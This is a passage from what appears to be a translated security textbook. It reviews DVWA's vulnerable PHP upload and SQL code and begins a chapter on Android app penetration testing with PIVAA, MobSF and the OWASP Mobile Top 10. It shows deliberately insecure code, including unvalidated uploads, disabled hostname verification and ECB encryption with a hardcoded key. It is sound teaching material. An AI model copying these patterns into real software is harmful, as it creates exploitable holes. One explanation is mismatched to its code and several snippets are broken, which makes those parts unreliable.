10. $first = mysql_result($result,$i,"first_name");
11. $last = mysql_result($result,$i,"last_name");
12. echo '<pre>';
13. echo 'ID: ' . $id . '<br>First name: ' . $first . '<br>Surname: ' . $last;
14. echo '</pre>';
15. $i++;
16. }
17. }
18. ?>
```

这里大部分内容都是相同的。我们看到第 4 行将用户传递的参数 `id` 的值保存在变量 `$id` 中。我们看到第 6 行发生了一些变化，异常/错误处理器（或 `die` 语句）已被移除，以处理 MySQL 错误。此外，在第 7 行，`@` 字符抑制了错误，使得注入变成了盲注。

### DVWA 文件上传漏洞

上传的文件对应用程序构成了重大风险。让我们看看安全设置为低（low）时 DVWA 文件模块的源码：


```php
1. <?php
2.   if (isset($_POST['Upload'])) {
3.     $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
4.     $target_path = $target_path . basename($FILES['uploaded']['name']);
5.     if (!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
6.       echo '</pre>';
7.       echo 'Your image was not uploaded.';
8.       echo '</pre>';
9.     } else {
10.     echo '<pre>';
11.     echo $target_path . ' successfully uploaded!';
12.     echo '</pre>';
13.   }
14. }
15. ?>
```

在第 2 行，应用程序检查客户端发送的文件上传请求是否存在 POST 参数 `Upload`。然后在第 4 行，应用程序构造目标路径并将其保存到变量 `$target_path`。

因此，每当我们把文件推送到服务器端脚本（在这种情况下为 `PHP`），服务器将处理该文件并将其移动到临时目录，直到脚本文件的处理完成。最后，它将从该临时目录删除文件。在这个示例中，`$_FILES['file']['tmp_name']` 是该临时目录的路径（而不是名称）。

然后，在第 5 行，我们使用名为 `move_uploaded_file` 的函数将文件移动到 `$target_path`。注意应用程序设计用于上传图像文件，但服务器端代码中没有对文件类型的验证，因此用户可以向服务器上传任何文件。

现在，将安全设置为中（medium）并查看代码发生了变化：

```php
2. if (isset($_POST['Upload'])) {
3. $target_path = DVWA_WEB_PAGE_TO_ROOT"hackable/uploads/";
4. $target_path = $target_path basename($_FILES['uploaded']['name']);
5. $uploaded_name = $_FILES['uploaded']['name'];
6. $uploaded_type = $_FILES['uploaded']['type'];
7. $uploaded_size = $_FILES['uploaded']['size'];
8. if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000)) {
9. if (!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
10. echo 'Your image was not uploaded.';
11. echo '<pre>';
12. echo '</pre>';
13. } else {
14. echo '<pre>';
15. echo $target_path . ' successfully uploaded!';
16. echo '</pre>';
17. }
18. }
19. else{
20. echo '<pre>Your image was not uploaded.</pre>';
21. }
22. }
23. ?>
```

这里大部分内容都是相同的。我们看到第 4 行将用户传递的参数 id 的值保存在变量 `$id` 中。我们看到第 6 行发生了一些变化，异常/错误处理器（或 `die` 语句）已被移除，以处理 `MySQL` 错误。此外，在第 7 行，`@` 字符抑制了错误，使得注入变成了盲注。（此处由于原文存在大量重复段落，已按要求去重处理）

- 5. 自动化源代码审计的局限性是什么？
- 6. 手动源代码审计的局限性是什么？
- 7. 安全源码审计包含哪些不同阶段？
- 8. 自动化源代码审计工具无法发现哪些类型的错误？

# 第 6 章

## Android 移动应用程序渗透测试

### 引言

如今，无论是营利还是公共机构都在以全新且引人注目的方式使用移动应用程序，从银行应用程序到医疗平台。应对这些系统的安全威胁是一个日益严峻的挑战，每天都有新的漏洞被发现。随着移动应用程序成为日常生活中不可或缺的一部分，手机用户数量在过去几年中急剧增加。因此，保护移动应用使用的数据已变得至关重要。在企业层面，自自带设备（BYOD）策略允许员工将他们的智能手机连接到企业网络。这为黑客渗透网络提供了机会，最近的一项研究显示使用移动设备恶意软件的攻击数量大幅增加。因此，安全专家了解移动设备及其运行其上的应用程序的安全至关重要。智能手机安全已成为一个新兴的研究领域。它主要集中在移动设备管理（MDM）、设备级安全、存储空间安全、传输层安全以及智能手机应用程序安全。

### 结构

我们本章将涵盖以下主题：

- Android 应用程序渗透测试的阶段
- 故意不安全和脆弱的 Android 应用程序（PIVAA）简介
- 自动化 Android 移动应用扫描
- OWASP 与移动安全
- 移动应用特定攻击
- 平台使用不当
- 不安全的数据存储
- 不安全的通信
- 不安全的身份验证
- 加密算法不足
- 不安全的授权
- 客户端代码质量
- 代码篡改
- 反向工程
- 冗余功能
- Android 应用程序的基础反向工程
- SSL 证书固定与绕过

### 目标

在学习本章后，你应该对 OWASP Mobile Top 10 漏洞以及它们如何影响移动应用程序及其建立非常深入的理解。本章还讨论了针对 Android 平台开发的移动应用程序进行渗透测试的实践方法。我们将涵盖自动化和手动 Android 应用程序渗透测试，以发现 OWASP Mobile Top 10 中定义的缺陷。

## Android 应用程序渗透测试的阶段

通常情况下，移动应用程序渗透测试分为以下阶段：

- **自动化扫描**：自动化扫描是任何渗透测试的第一阶段，使用工具对目标应用程序进行扫描，以发现已知和易于发现的漏洞。此阶段的目标是可以使用自动化/暴力方法识别的*低悬挂的果实*（简单漏洞），而无需浪费大量时间手动寻找。通常，自动化移动应用扫描器通过查看移动应用包中的特定模式来检查各种常见的配置错误和编程错误。自动化扫描分为两种类型：**静态扫描**和**动态扫描**。

- 对自动化扫描的问题/发现进行手动验证：自动化漏洞扫描的主要局限之一是扫描结果可能存在误报。在移动应用渗透测试的这一阶段，渗透测试人员手动验证自动化扫描器的发现，确定其可利用性并消除误报。

- 深度手动渗透测试：显而易见，自动化扫描器会忽略许多逻辑问题。在渗透测试的这一阶段，测试人员将手动深入应用程序，对应用进行静态和运行时分析，以发现更多漏洞。此阶段包括特定特定的业务逻辑测试（例如，支付网关绕过、价格操纵等），这些在大多数情况下通过自动化扫描几乎无法捕获的。

## 故意不安全和脆弱的 Android 应用程序（PIVAA）简介

由 High-Tech Bridge 开发的故意不安全和脆弱的 Android 应用程序（PIVAA）取代了过时的垃圾不安全和脆弱应用（DIVA），作为移动漏洞扫描器的基准。你可以使用完全免费的移动应用扫描器来运行测试并与其他应用程序进行比较。此应用程序可评估移动应用安全扫描器，并确定扫描器是否能够发现 PIVAA 应用程序中存在的漏洞。GitHub 仓库包含了 PIVAA 应用程序中存在的所有漏洞列表（https://github.com/HTBridge/pvaa）。在本章中，我们将结合自动化和手动方法来剖析 PIVAA，并深入研究其中存在的多种漏洞。

## 拦截 PIVAA 流量

在第 3 章“为渗透测试设置实验室”中，我们已经讨论了拦截 Android 应用程序 HTTP 流量的必要性，以及我们如何设置应用程序以拦截来自移动设备的 HTTP 流量。`Burp Suite` 是渗透测试中最常用的软件包之一，不仅用于 Web 应用程序，还用于移动应用程序。通过拦截流量，测试人员可以测试安装在智能手机上的移动应用程序、移动应用使用的 API 以及托管该应用的服务器。一旦你按照第 3 章“为渗透测试设置实验室”中的描述完成所有设置，你就应该能够拦截 PIVAA 生成的 HTTP 流量（如图 6 所示）。

| 拦截 | HTTP 历史 | WebSockets 历史 | 选项 |
| :--- | :--- | :--- | :--- |
| | Request-With: https://www.htbridge.com:443 [92.204.221.22] | | |
| Forward | Drop | Intercept is on | |
| Raw | Headers | Hex | |


| 1 GET /sm1/ HTTP/1.1<br>2 Host: www.htbridge.com<br>3 Connection: close<br>4 Upgrade-Insecure-Requests: 1<br>5 User-Agent: Mozilla/5.0 (Linux; Android 7.1.1; ONEPLUS A5000 Build/NMF2X<br>6 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,<br>7 X-Requested-With: com.htbridge.com.pivaa<br>8 Sec-Fetch-Site: none<br>9 Sec-Fetch-Mode: navigate<br>10 Sec-Fetch-Use: 71<br>11 Sec-Fetch-Dest: document<br>12 Accept-Encoding: gzip, deflate<br>13 Accept-Language: en-US,en;q=0.9 | | | |

> 图 6.1: 使用 Burp Suite 拦截移动应用流量

## 自动化 Android 移动应用扫描

渗透测试和漏洞扫描通常被误认为是完全相同的解决方案。漏洞扫描是一种自动的、高级的测试，试图发现并报告潜在漏洞。渗透测试是一项深度评估。报告确定了潜在弱点，但有时也会识别出误报。筛选报告的漏洞并确保它们是真实的而非误报是非常重要的。有很多 Web 应用的安全扫描器；以下内容将帮助你发现移动应用中的安全缺陷。

## 介绍移动安全框架 (MobSF)

Mobile Security Framework 也称为 MobSF，是一个自动化的、一体位的移动应用程序（Android/iOS/Windows）渗透测试、恶意软件分析和安全评估框架。MobSF 还可以对移动应用包进行静态和动态分析。MobSF 支持几乎所有常见的移动二进制文件，如 APK、XAPK、IPA 和 APPX，以及压缩源码。它带有 REST API，允许组织将其无缝集成到 CI/CD 或 DevSecOps 流水线中。MobSF 还带有一个动态分析器工具，帮助执行运行时安全/风险评估。

## 在 Kali/Linux 上安装 Mobile Security Framework (MobSF)

安装 MobSF 非常简单。尽管它支持所有平台，但我们建议你在 Linux 系统上使用它。让我们来看一下步骤：

1. 为 MobSF 设置环境：作为第一步，你应该安装以下应用程序：
    * **安装 Git**: `sudo apt-get install git`
    * **安装 Python 3.8-3.9**: `sudo apt-get install python3.8`
    * **安装 JDK 8+**: `sudo apt-get install openjdk-8-jdk`

2. 现在，你需要安装依赖，可以通过运行以下命令下载：

`sudo apt install python3-dev python3-venv python3-pip build-essential libffi-dev libssl1-dev libxml2-dev libxslt1-dev libjpeg8-dev zlib1g-dev wkhtmlmltopdf`

## 安装 MobSF

以下命令将从 GitHub 获取 **Mobile Security Framework (MobSF)** 并将其安装到你的系统中：

```
git clone https://github.com/MobSF/Mobile-Security-Framework-MobSF.git
cd Mobile-Security-Framework-MobSF
./setup.sh
```

此过程通常需要一段时间时间。

## 运行 MobSF

安装完成后，你可以启动 MobSF 并执行以下命令。你可以在本地主机的 8000 端口上启动 MobSF 服务器：

```
./run.sh 127.0.0.1:8000
```

然后，你可以在偏好的浏览器中访问 `http://127.0.0.1:8000/`；随后你将看到一个如图 6.2 所示的界面：



图 6.2：MobSF GUI

为了了解最常见的 Android 应用程序漏洞，我们将从查看一个包含许多漏洞的示例移动应用程序开始：PIVAA。首先，我们将对该示例应用进行自动化漏洞扫描，并尝试理解不同的检测结果；然后，我们将查看手动验证它们的方法，以确保安全问题的存在。

## 使用 MobSF 对 PIVAA 运行扫描

使用 MobSF 对移动应用程序进行漏洞扫描非常简单。一旦 MobSF 启动运行，你只需要上传 PIVAA APK（该 APK 可以从 `https://github.com/HTBridge/pivaa/tree/master/pivaa.apks` 下载）。一旦上传了 APK，取决于 APK 的大小，需要几分钟，并对 APK 运行多次扫描以识别安全问题。扫描完成后，你将被导航到类似于图 6.3 所示的页面。报告页的 GUI 将为你提供有关该应用的大量细节：



> 图 6.3：MobSF 扫描报告

## OWASP 与移动安全

OWASP 移动安全项目是一个中心化的资源，旨在为开发者和安全分析师提供构建和维护安全移动应用程序所需的资源。

以下是 OWASP 前 10 移动端风险：

- 不当的平台使用
- 不安全的数据存储
- 不安全的通信
- 不安全的身份验证
- 加密不足
- 不安全的授权
- 客户端代码质量
- 代码篡改
- 逆向工程
- 冗余功能

## Android 平台上的移动特定攻击

现在，我们将查看 MobSF 的不同检测结果，以及它们在上一节中看到的 OWASP 移动前 10 列表中的位置。

## 不安全的数据存储漏洞

大多数应用程序都保留了某些关于用户的信息，通常称为**个人身份信息 (PII)**。这可以从令牌到医疗历史和信用卡详情不等。如果这些数据没有被安全地保存，黑客就可以访问并将其用于各种目标。

### 不安全数据存储的严重性

不安全的数据存储是一种高严重性漏洞，有许多滥用的可能性。设计人员经常认为访问设备文件系统和设备数据存储中的信息自然上是安全的。然而，文件系统实际上非常容易访问。此外，根根或越狱设备会绕过大多数的文件加密。一旦此类信息被未经授权访问，黑客可以使用多种方法利用从不安全应用或设备中窃取的数据，对用户和企业都会产生严重后果。以下是一些实例：

- **欺诈**：如果黑客成功获取卡片或支付信息，他们就可以进行购买，或使用这些信息进行电子邮件支付和欺诈，即用户被看似合法的供应商引导向错误的账户进行存款付款。
- **声誉损害**：重大攻击不仅会因监管罚款造成物质损失，还会造成重大的声誉损害。
- **身份盗用**：利用收集到的有关个人的信息，黑客可以冒充其身份以收集更多信息，或以其名义开设账户或办理卡片。
- **违反规规定**：多项政策规定了敏感数据的严格保护，不合规将面临严厉的罚款和其他各种指控。

### 不安全数据存储的攻击向量

不安全的数据存储空间包含大量的攻击向量，由糟糕的文件加密、受威胁的设备和不安全的访问协议组成。以下是黑客利用不安全存储空间获取数据的一些方式：

- 操作系统：这涉及到操作系统如何以及在何存储/缓存数据、图像和符号。存储或缓存不当的数据可以被黑客轻易操纵。
- 开发框架：这指的是应用程序如何以及在何存储/缓存数据、照片和日志文件，或者如何将其同步到云端。这些都可能包含敏感的个人身份信息。如果由开发框架处理不当，黑客可以轻松访问并操纵。
- 广告、分析或社交网络：这是如 cookie 等数据和信息；此外，应用程序用户偏好被存储用于广告。它还包括用于社交网络的分析，以记住用户的偏好。这些信息可以被黑客破解和操纵。
- 已根或越狱设备：在操作系统内置安全框架之外运行的受损设备可被用于访问黑客通常没有能力访问的数据。

## 在 PIVAA 中验证不安全的数据存储漏洞

MobSF 静态分析器默认反编译 APK 并分析源码。我们始终可以选择从 MobSF GUI 审查反编译的代码。当 MobSF 正在扫描你的 PIVAA 时，你应该在报告页上看到一个如图 6.4 所示的区域：


图 6.4：查看源代码

点击**查看源代码**。这将带你进入 MobSF 代码浏览器，界面如图 6.5 所示：



图 6.5：代码浏览器


在这里，你可以搜索反编译后的代码。为了验证 PIVAA 中的不安全存储问题，我们搜索 `Database`，它应该带我们进入名为 `DatabaseHelper.java` 的文件，如图 6.6 所示：



图 6.6：代码浏览器

在 `DatabaseHelper.java` 文件中，你应该看到硬编码的数据库名称，如图 6.7 所示：

### 文件：DatabaseHelper.java

```
1.    package com.htbridge.pivaa.handlers.database;
2.    import android.content.ContentValues;
3.    import android.content.Context;
4.    import android.database.Cursor;
5.    import android.database.DatabaseUtils;
6.    import android.database.sqlite.SQLiteDatabase;
7.    import android.database.sqlite.SQLiteOpenHelper;
8.    import android.util.Log;
9.    import java.util.ArrayList;

    public class DatabaseHelper extends SQLiteOpenHelper {
        private static final String COLUMNS = (KEY ID, KEY TI static DATABASE NAME = "pivaaDB";
        private static final int DATABASE_VERSION = 1;
        private static final String KEY_AUTHOR = "author";
        private static final String KEY_ID = "id";
        private static final String KEY_TITLE = "title";
        private static final String TABLE_DATA = "data";
}
```

图 6.7：PIVAA DatabaseHelper.java

一旦获取了数据库文件名，我们可以使用以下命令从 Android 数据库获取文件：

`adb pull <remote-file> <local path>`

`adb pull /data/data/com.htbridge.pivaa/pivaaDB`

# 不安全数据存储的缓解策略

在移动应用程序中有效保护和安全数据至关重要。对于移动应用而言，这意味着保护所有敏感信息、应用程序中的数据，并实施正确的授权。良好的数据加密策略有助于保护设备中的数据。考虑到你永远无法确定设备是否受到了损坏，因此在安装时执行先期安全检查是必要的。我们还应该部署应用加固技术来抵御攻击并保护文件加密密钥。同时，准确查看它们如何管理以下类型的函数也至关重要：

- `发送到第三方的分析数据或类似数据`
- 浏览器 Cookie
- URL 缓存
- HTML5 数据存储
- 应用程序后台
- 键盘按键缓存
- 日志记录
- 复制/粘贴贴板缓存
- 中间数据

## 平台使用不当的漏洞

操作系统为移动应用程序提供了广泛的安全功能和工具。`平台使用不当`是指应用程序没有正确实现这些属性，导致这些属性被用作攻击的机会机，或向攻击者泄露数据。

### 平台使用不当的漏洞的严重性

通过不安全的开发实践，泄露的 API 调用（如 Android intents）可能成为黑客攻击 Android 设备的途径。通过代码中的缺陷/不完善之处，黑客可以利用赋予应用程序的权限。随后，他们可以注入输入内容或不可预见的命令来攻危设备并窃取数据。

### 平台使用不当的攻击向量

应用程序有多种方式可以无意中暴露平台漏洞。与 OWASP 移动前 10 中的其他漏洞不同，这些问题并不完全取决于应用程序开发者，也可能源于操作系统侧的文档不足或通信不畅。Android 设备上平台使用不当的一些最典型实例如下：

- `Android 文件权限`：当开发者没有正确限制对应用和数据的访问时，黑客可以篡改或操纵数据，并利用它们执行有害代码。
- `Android intents`：Intents 是应用程序与 Android 平台之间的通信形式。这些 intents 可能会被滥用，导致无意实现，或被攻击者`嗅探`以从设备中恢复/窃取数据。

### 在 PIVAA 中验证平台使用不当的漏洞

当我们导航到左侧面板的 MobSF 权限标签页（如图 6.8 所示），你应该可以看到 MobSF 已经汇总了目标应用运行所需权限：



在 `Permissions`（权限）部分，我们应该看到 PIVAA 正在用户请求以下权限以运行：

```
android.permission.ACCESS_COARSE_LOCATION
android.permission.ACCESS_FINE_LOCATION
android.permission.CALL_PHONE
android.permission.CAMERA
android.permission.GET_ACCOUNTS
android.permission.INTERNET
android.permission.NFC
android.permission.READ_PROFILE
```

我们还应该看到 MobSF 标出了`dangerous`（危险）漏洞，如图 6.9 所示：

| PERMISSION | STATUS | INFO | DESCRIPTION |
| :--- | :--- | :--- | :--- |
| android.permission.ACCESS_COARSE_LOCATION | dangerous | coarse (network-based) location | 访问粗略位置源（如移动网络数据库），以确定大致的手机位置（在可用情况下）。恶意应用程序可以使用此确定你所在的大致位置。 |

图 6.9：MobSF 截露的平台使用不当漏洞

在验证任何应用程序中的平台使用不当问题时，渗透人员应始终彻底审查应用程序的业务逻辑，以理解哪些权限对于业务逻辑是必要的，哪些是不必需的。根据这些理解，渗透人员应与开发者沟通应该撤销哪些权限。

### 平台使用不当的缓解策略

安全的应用程序编码和应用程序配置实践是使任何应用程序免受平台使用不当漏洞影响的第一步。然而，安全的编码和配置实践应在移动应用程序的服务端使用。对于特定的漏洞信息，开发者还应参考 OWASP Web Top Ten 或 Cloud Top 项目。此外，应限制应用程序与其他应用程序的交互，以防止它们成为主要的攻击目标并和/或造成重大的声誉损害。

## 不安全通信漏洞

移动应用程序在客户端-服务器架构中不断发送和接收数据，无论是通过电信运营商网络还是通过互联网。此外，可以离线使用的程序偶尔会连接到 Web 服务器以获取更新。黑客可以监听这些传输，以获取来自用户设备的敏感数据，或更改发送给设备的数据。

### 不安全通信的严重性

在 OWASP 移动前 10 漏洞中，不安全通信被认为是一种易于利用且强度高的漏洞。手机通过多种介质使用互联网，例如住宅或工作 Wi-Fi、公共区域或咖啡馆的开放 Wi-Fi，或者通过移动服务供应商的网络。

敏感数据，包括加密密钥、个人信息、支付详情、密码和元数据，如果黑客阻断了交互，都可能变得可见。中间人攻击是不安全通信中常见的攻击手段。

### 不安全通信的攻击向量

如果传输安全不足或应用不当，移动应用程序面临不安全通信的风险。以下是黑客可以操纵移动应用通信的一些情况：

- 攻击者已经连接到目标网络，并可以执行中间人攻击（MITM）来监听合法通信。这包括 Wi-Fi 网络或外围网络路由器。
- 数据在服务器与客户端传输过程中可能会被篡改。
- 设备上可能存在恶意软件或受损应用程序在监控通信。

### 在 PIVAA 中验证不安全通信

查看 `com/htbridge/pivaa/handlers/API.java` 源码，我们看到了对 `setHostname()` 的调用，传递给它的参数是 `NOT_VERIFY`，这强制禁用了客户端验证，如图 6.10 所示：


```
52. / JADX: finally failed /
53. public String getURL(String inputURL) {
54.     HttpURLConnection urlConnection = null;
55.     HttpsConnection urlConnection = null;
56.     StringBuilder sb = new StringBuilder();
57.     try {
58.         URL url = new URL(inputURL);
59.         if (url.getProtocol().toLowerCase().equals("https")) {
60.             trustHosts();
61.             HttpsConnection httpsConnection = (HttpsConnection)url.openConnection();
62.             httpsConnection.setHostnameVerifier(DO_NOT_VERIFY);
63.             urlConnection = httpsConnection;
64.     } else {
65.             urlConnection = (HttpConnection)url.openConnection();
66. 
67.             BufferedReader reader = new Buffered(InputStreamReader(urlConnection.getInputStream()));
```

图 6.10：PIVAA 反编译片段

发生的问题是，应用程序与服务器之间的安全（HTTPS）通信被第三方行为拦截（例如，通过自签名证书），客户端没有终止 HTTPS 连接。因此，恶意的第三方可以看到明文 HTTPS 通信。有关该 API 的更多信息可以参阅此处：https://developer.android.com/reference/java/net/ssl/HttpsConnection#setHostnameVerifier(java.net.ssl.HostnameVerifier)

PIVAAget其他不安全通信实例。查看 `com/htbridge/pivaa/handlers/API.java` 源码，我们可以看到它在一个实例中使用了 `HttpConnection` 而不是 `HttpsConnection`（如图 6.11 所示），这让入侵者的生活变得容易。任何执行中间人攻击的人都可以轻松看到明文流量：

```
app/src/main/java/com/pivaa/handlers/API.java
```

```
11 import java.net.HttpConnection;
12 import java.net.MalformedURLException;
13 import java.net.URL;
14 import java.security.cert.CertificateException;
```

```
67 * Perform login to API by HTTP
68 * @return
69 */
70 public String getURL(String inputURL) {
71     HttpURLConnection urlConnection = null;
```

图 6.11: PIVAA 不安全通信代码段

## 不安全通信的缓解策略

与 OWASP Mobile Top 10 列表中的其他各种问题一样，黑客有多种方法利用不安全通信。通过简单遵循以下方法，可以保护移动应用程序免受此类攻击：

- 应该适当验证 SSL/TLS 握手的前几个数据包（例如，客户端支持的加密套件），如果在第一阶段发现异常，则不要继续连接。
- 客户端端应始终验证服务器证书，以确保其来自经过验证的源且不是自签名证书。自签名证书通常被认为是有疑的。
- 使用具有足够密钥长度的行业领先加密套件（例如，高级加密标准 (AES128) 或更高版本）。
- 网络流量或证书中的缺陷应立即通知用户，让他们决定下一步行动方案。

## 加密性不足的漏洞

由于存在针对移动应用程序的威胁，考虑到它们运行的设备可能已经越狱（也称为 **rooted**/根权限化）或通过其他方式被攻破，也是非常重要的。在这种情况下，要避免数据落入犯罪分子手中可能非常具有挑战性。只有对面临风险的数据进行正确加密，才能缓解这种风险。

## 加密性不足的严重性

许多现代应用程序处理或保存某种精敏感数据。安全机制通常被用于保护这些数据。然而，当实现不当时，加密的整个目的就失效了。加密不足会导致黑客获取专有信息和个人信息，如姓名、脸部、信用卡详情、社会安全信息等。它对应用程序背后的业务也有重大影响，因为其代码可以被访问和反向工程，从而产生额外的漏洞或导致版权被盗。

声誉损害以及监管处罚也是令人关注的。虽然黑客盗取以明文形式编写的百万客户的详细信息是不可否认的，但这实际上与他们访问使用不安全加密机制保护的加密数据集所造成的伤害是相同的。

## 加密性不足的攻击向量

设计者和操作系统制造商都使用了多种技术来保护应用程序源代码和数据。然而，其中许多方法非常容易绕过。例如，考虑以下情况：

- 通过越狱/根权限化的设备，仍然可以从应用程序进程捕取的快照以明文形式访问加密密钥。
- 自定义文件加密协议或不安全/过时的加密算法也会使数据作为代码面临危险。MD4、MD5 和 SHA1 都是过时加密算法的例子，它们是不安全的但在在使用。随着黑客计算能力的提高，加密必须增强其复杂性才能生存。
- 密钥管理是所用加密的另一个缺陷，因为通常，任何加密系统最脆弱的部分是用于生成加密的加密密钥。如果黑客可以定位或获取密钥，无论加密有多稳固都无关紧。

## 在 PIVAA 中验证加密性不足情况

如果你查看 MobSF 的扫描报告，你应该会发现它已经指出了 PIVAA 应用程序中加密性不足的问题，如图 6.12 所示：

| 应用程序在加密加密算法中使用 ECB 模式。ECB 模式被认为是脆弱的，因为它识别明文块。 | CVSS V2 5.9 (中等) com/htbridge/pivaa/handlers/Encryption.java |
| :--- | :--- |
| CWE-327 使用损坏或有风险的加密算法 |  |
| OWASP Top 10: 加密不足 |  |
| OWASP M3VS: MITG-CRYPTO-2 |  |

图 6.12: PIVAA 加密不足

查看 `com/htbridge/pivaa/handlers/Encryption.java` 的源代码应该给你提供更多深入见解。参考图 6.13：

```java
public static String encryptaAES_ECBPKCS5Padding(String value) {
  try {
    SecretKey keySpec = new SecretKeySpec("1, 2, 3, 4, 5, 6, 7, 8, 7, 6, 5, 4, 3, 2, "AES");
    Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
    byte[] encrypted = cipher.doFinal(value.getBytes());
    return Base64.getEncoder().encodeToString(encrypted);
  } catch (Exception ex) {
    ex.printStackTrace();
    return "";
  }
}
```

图 6.13: PIVAA 不安全的加密存储

我们可以看到它使用了电子密码本 (ECB) 进行加密。基于块的文件加密是在不同的输入块上进行的（例如，AES 具有 128 位的块）。当明文大于块大时，明文会被拆分为输入维度的块，并对每个块进行加密。密码工作模式决定了加密一个块的结果是否会影响后续块。

电子密码本 (ECB) 将输入分成固定大小的块，并使用相同的密钥独立加密。如果几个分离的块由相同的明文，它们将被加密成相同的密文块，这使得数据中的模式变得更容易被识别。在某些情况下，攻击者可能还具有重放加密数据的能力。

使用密码块链 (CBC) 模式来代替 ECB。在 CBC 模式中，明文块与上一个密文块进行异或运算。这确保了即使块包含相同的信息，每个加密块也是唯一且随机的。注意，最好将 CBC 与 HMAC 结合，并确保不会抛出错误（如填充错误、MAC 错误等），以更有效地抵抗填充攻击。关于填充攻击的更多信息可以在此处找到：https://en.wikipedia.org/wiki/padding_oracle_attack。

## 加密不足的缓解策略


防止这种 OWASP Mobile Top 10 威胁，可以采取的最关键步骤是使用经过测试的白盒加密解决方案，该方案在时间和稳定性方面经过了测试。许多加密公式和协议不再需要，因为它们存在严重缺陷或无法满足现代安全需求。这包括：

- `RC2`
- `MD4`
- `MD5`
- `SHA1`

在保存加密数据时，建议利用保护保存数据完整性的块模式密码，例如伽罗计数器模式 (`GCM`)。伽罗计数器模式 (`GCM`) 的优势是该算法是 `TLSv1.2` 实现的强制要求的，因此在所有平台上都可用。

## 代码质量漏洞

在为应用程序编写代码时，几乎无法避免错误。但并非所有错误都是严重问题。当多个团队协作、应用程序由第三方供应商创建或通过在旧代码上堆叠代码来升级应用程序时，问题和漏洞更容易出现。

### 代码质量漏洞的攻击向量

黑客可以使用免费工具对移动应用程序进行反向工程、模糊测试以及静态和动态分析，以理解其代码的工作原理以及可能存在哪些代码质量漏洞。从那里，可以形成各种漏洞，例如：

- 注入恶意代码以强制应用程序以非预期的方式运行
- 窃取独占用户数据
- 窃取版权
- 劫持设备计算能力用于僵尸网络或加密货币挖掘
- 给代码质量差的公司带来声誉损害

现代移动应用程序包含数百万行代码，每个应用程序可能包含数千个错误。几乎无法定义攻击

